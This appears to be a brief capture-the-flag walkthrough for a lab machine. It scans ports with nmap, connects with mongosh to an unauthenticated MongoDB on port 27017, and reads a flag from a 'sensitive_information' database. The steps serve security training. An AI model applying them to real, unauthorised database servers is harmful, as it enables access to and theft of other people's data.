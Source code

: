 1. Scan ports (nmap)
2. Find that there is a mongodb running on port 27017
3. Install mongoshell (https://www.mongodb.com/try/download/shell)
3. Connect to the mongodb with the IP and port `mongosh --host <IP>:27017`
4. Scan dbs and collections `show dbs` and `use <db>` and `show collections`
5. Flag is under the `sensitive_information` db and `flag` collection
6. Use `db.flag.find().pretty()` to get the flag
7. Congrats! You have pwned the machine